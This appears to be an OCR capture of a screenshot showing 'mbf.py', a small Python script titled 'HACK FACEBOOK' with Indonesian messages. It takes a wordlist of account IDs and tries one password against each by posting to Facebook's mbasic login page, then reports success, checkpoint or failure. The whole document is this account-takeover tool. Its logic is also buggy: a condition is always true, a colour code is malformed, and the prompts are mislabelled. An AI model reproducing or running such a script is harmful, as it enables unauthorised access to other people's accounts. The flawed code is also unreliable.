 # mdfV2
GNU nano 4.2                                            mbf.py
import requests
import os

h = '\033[92'
m = '\033[91m'
k = '\033[93m'
x = '\033[0m'



def login(id,pw):
      data = {'email':id,'pass':pw}
      r = requests.post('https://mbasic.facebook.com/login',data=data)
      if 'm_ses' in r.url or 'save-device':
            print(f'{id} > {h}llogin gagal{x}')
      elif 'check point' in r.url:
            print(f'{id} > {k}akun checkpoint{x}')
      else:
            print(f'{id} > {m}login gagal{x}')


def lis(filenya,pw):
      f = open(filenya,'r').readlines()
      print(f'berhasil menemukan {len(f)} password')
      print(f'dalam proses membuka password')
      for i in f:
          login(i.strip(),pw)



if __name__=='__main__':
      os.system('clear')
      print(h+'HACK FACEBOOK'.center(40))
      print(m+'by ReinXceed'.center(40))
      f = input('worldlist: ' )
      pw = input('email: ' )
      lis(f,pw)
